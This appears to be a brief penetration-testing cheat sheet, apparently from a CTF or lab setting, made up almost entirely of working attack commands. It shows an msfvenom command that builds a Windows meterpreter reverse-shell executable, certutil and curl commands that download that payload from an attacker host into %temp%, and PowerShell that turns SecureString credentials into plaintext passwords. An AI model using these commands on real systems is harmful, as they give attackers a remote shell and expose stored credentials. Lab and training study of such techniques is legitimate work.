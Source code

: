 
msfvenom command to generate reverse shell with meterpreter :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=5555 -f exe -o s.exe
```


Downloads a file into `%temp%`
```shell
certutil -urlcache -f http://10.10.14.14:6666/s.exe %temp%/s.exe
curl http://10.10.14.14:8000/s.exe -o %temp%/s.exe
```


Decypher Secure String password :
```powershell
# Method 1 
$Decrypted = [System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR($InputSecureString)) 
# Method 2 
$temp = New-Object PSCredential ("Decrypt", $InputSecureString) 
$Decrypted = $temp.GetNetworkCredential().Password
```